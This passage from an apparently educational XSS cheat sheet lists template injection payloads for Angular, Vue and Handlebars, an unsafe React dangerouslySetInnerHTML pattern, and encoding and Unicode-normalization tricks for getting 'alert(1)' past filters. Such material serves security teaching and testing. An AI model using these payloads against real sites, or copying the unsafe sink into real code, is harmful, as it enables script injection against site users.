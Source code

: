 ```javascript
// Angular template injection
{{constructor.constructor('alert(1)')()}}

// Vue.js template injection
{{$eval('alert(1)')}}

// React JSX injection
<div dangerouslySetInnerHTML={{__html: userInput}} />

// Handlebars template injection
{{#with "constructor"}}{{#with ../constructor}}{{../constructor.constructor("alert(1)")()}}{{/with}}{{/with}}
```

---

## Bypassing Filters and Blacklists

Modern web applications use **blacklists** and **filters** to prevent XSS attacks, but these can often be bypassed through creative techniques like encoding or using browser quirks.

### Using Encodings

Obfuscating malicious scripts using HTML entities or Unicode can bypass filters:

```html
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74:alert(1);
```

### URL Encoding Tricks

URL encoding replaces characters with their ASCII values in hex:

```html
javascript%3Aalert%281%29
```

### Hexadecimal Escaping

Using Unicode escape sequences or hexadecimal encoding can bypass strict filters:

```html
\u0061\u006c\u0065\u0072\u0074(1); // alert(1)
```

### Unicode Normalization Attacks - 2025

**Exploiting Unicode normalization to bypass filters:**

```javascript
// Using Unicode normalization to bypass filters
const payload = 'ａｌｅｒｔ(1)'; // Full-width characters
eval(payload.normalize('NFKC')); // Normalizes to alert(1)

// Mixed Unicode forms
const obfuscated = '\u0061\uFF4C\u0065\u0072\u0074'; // alert
```

